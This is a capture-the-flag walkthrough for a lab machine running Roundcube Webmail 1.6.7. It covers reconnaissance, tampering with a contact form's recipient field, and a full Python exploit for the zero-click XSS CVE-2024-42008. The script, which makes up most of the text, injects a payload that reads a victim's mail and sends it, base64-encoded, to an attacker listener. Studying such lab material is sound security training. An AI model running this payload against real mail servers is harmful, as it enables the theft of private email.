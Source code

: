 1,Recon
port scan
```
PORT    STATE SERVICE       VERSION
22/tcp  open  ssh           OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey: 
|   256 33:41:ed:0a:a5:1a:86:d0:cc:2a:a6:2b:8d:8d:b2:ad (ECDSA)
|_  256 04:ad:7e:ba:11:0e:e0:fb:d0:80:d3:24:c2:3e:2c:c5 (ED25519)
80/tcp  open  http          nginx 1.22.1
|_http-server-header: nginx/1.22.1
|_http-title: Site doesn't have a title (text/html).
135/tcp open  msrpc         Microsoft Windows RPC
139/tcp open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds?
593/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
Service Info: OSs: Linux, Windows; CPE: cpe:/o:linux:linux_kernel, cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-02-10T05:11:10
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required

```
Page check 
![](images/Pasted%20image%2020250210161437.png)
There is another sub-domain `mail.drip.htb` for `sign in` page
![](images/Pasted%20image%2020250210161625.png)
Then we can register an account to login.
![](images/Pasted%20image%2020250213162438.png)
When we successfully login to the dashboard, we can find the version of this service 
`Roundcube Webmail 1.6.7`
![](images/Pasted%20image%2020250213162550.png)
By searching the exploits of this service, we can find a XSS vulner here.
![](images/Pasted%20image%2020250213162805.png)
Let's look at the default email headers and note the `drip.darkcorp.htb` domain :
```
Return-Path: <no-reply@drip.htb>  
Delivered-To: root@drip.htb  
Received: from drip.htb  
    by drip.darkcorp.htb with LMTP  
    id EHcECx+CrWd/QQIA8Y1rLw  
    (envelope-from <no-reply@drip.htb>)  
    for <root@drip.htb>; Wed, 12 Feb 2025 22:24:47 -0700  
Received: from drip.darkcorp.htb (localhost [127.0.0.1])  
    by drip.htb (Postfix) with ESMTP id 2BEA52397  
    for <root@drip.htb>; Wed, 12 Feb 2025 22:24:47 -0700 (MST)  
Content-Type: text/plain; charset="utf-8"  
MIME-Version: 1.0  
Content-Transfer-Encoding: 8bit  
Subject: Welcome to DripMail!  
From: no-reply@drip.htb  
To: root@drip.htb  
Date: Wed, 12 Feb 2025 22:24:47 -0700  
Message-ID: <173942428714.630.5808751956165052919@drip.darkcorp.htb>  
Reply-To: support@drip.htb
```
Let's try to send ourselves a letter from a form on the site and intercept the request via Burp Suite:
![](images/Pasted%20image%2020250213163729.png)
![](images/Pasted%20image%2020250213163811.png)
Then we just need to change `recipient=support%40drip.htb` into `recipient=root%40drip.htb`, then we can get the answer from the email dashboard.
![](images/Pasted%20image%2020250213163935.png)
There is another email here and we can try to exploit the XSS exploit to this user `bcase@drip.htb`

This version of Roundcube allows you to do XSS with 0-click. We will use CVE-2024-42008 and
repeat this video , and we will take the description of the vulnerabilities from the article .
`https://www.youtube.com/watch?v=X7UX7b7Tkrk`
And there is an article `https://www.sonarsource.com/blog/government-emails-at-risk-critical-cross-site-scripting-vulnerability-in-roundcube-webmail/`

Let's take a script from the guys from a well-known forum and modify it a little:
```
import argparse
import base64
import threading
import time
from http.server import BaseHTTPRequestHandler, HTTPServer
import requests
from lxml import html

# Argument parser setup
parser = argparse.ArgumentParser()
parser.add_argument("-m", "--message", required=True, type=int, help="Message number")
parser.add_argument("-i", "--ip", required=True, help="Our HTTP Server IP")
parser.add_argument("-p", "--port", type=int, required=True, help="Our HTTP Server PORT")
args = parser.parse_args()

LISTEN_IP = args.ip
LISTEN_PORT = args.port
MESSAGE_NUMBER = args.message

# Configuration
TARGET_URL = "http://drip.htb/contact"
PLACEHOLDER = f"{LISTEN_IP}:{LISTEN_PORT}"

# Payload for the POST request
start_msg = (
    "<body title=\"bgcolor=foo\" name=\"bar style=animation-name:progressbar-stripes "
    "onanimationstart=fetch('/?_task=mail&_action=show&_uid="
)
end_msg = (
    "&_mbox=INBOX&_extwin=1').then(r => r.text()).then(t => "
    f"fetch(`http://{PLACEHOLDER}/c=${{btoa(t)}}`)) foo=bar">Foo body></body>"
)

post_data = {
    "name": "root",
    "email": "root@drip.htb",
    "message": f"{start_msg}{MESSAGE_NUMBER}{end_msg}",
    "content": "html",
    "recipient": "bcase@drip.htb",
}

headers = {
    "Host": "drip.htb",
    "Cache-Control": "max-age=0",
    "Upgrade-Insecure-Requests": "1",
    "Origin": "http://drip.htb",
    "Content-Type": "application/x-www-form-urlencoded",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) "
                  "AppleWebKit/537.36 (KHTML, like Gecko) "
                  "Chrome/123.0.6312.122 Safari/537.36",
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp," 
               "image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7",
    "Referer": "http://drip.htb/index",
    "Accept-Encoding": "gzip, deflate, br",
    "Accept-Language": "en-US,en;q=0.9",
    "Cookie": "session=eyJfZnJlc2giOmZhbHNlfQ.Z6fOBw.u9iWIiki2cUK55mmcizrzU5EJzE",
    "Connection": "close",
}

# Function to send the POST request
def send_post():
    response = requests.post(TARGET_URL, data=post_data, headers=headers)
    print(f"[+] POST Request Sent! Status Code: {response.status_code}")

# Custom HTTP request handler to capture and decode the incoming data
class RequestHandler(BaseHTTPRequestHandler):
    def do_GET(self):
        if '/c=' in self.path:
            encoded_data = self.path.split('/c=')[1]
            decoded_data = base64.b64decode(encoded_data).decode('latin-1')
            
            tree = html.fromstring(decoded_data)
            message_body = tree.xpath('//div[@id="messagebody"]')
            
            if message_body:
                message_text = message_body[0].text_content().strip()
                print("[+] Extracted Message Body Content:\n")
                print(message_text)
            else:
                print("[!] No div with id 'messagebody' found.")
        else:
            print("[!] Received request but no data found.")
        
        self.send_response(200)
        self.end_headers()
        self.wfile.write(b'OK')

    def log_message(self, format, *args):
        return  # Suppress default logging

# Function to start the HTTP server
def start_server():
    server_address = (LISTEN_IP, LISTEN_PORT)
    httpd = HTTPServer(server_address, RequestHandler)
    print(f"[+] Listening on {LISTEN_IP}:{LISTEN_PORT} for exfiltrated data")
    httpd.serve_forever()

# Run the HTTP server in a separate thread
server_thread = threading.Thread(target=start_server, daemon=True)
server_thread.start()

# Send the POST request
send_post()

# Keep the main thread alive to continue listening
try:
    while True:
        time.sleep(1)
except KeyboardInterrupt:
    print("\n[+] Stopping server.")

```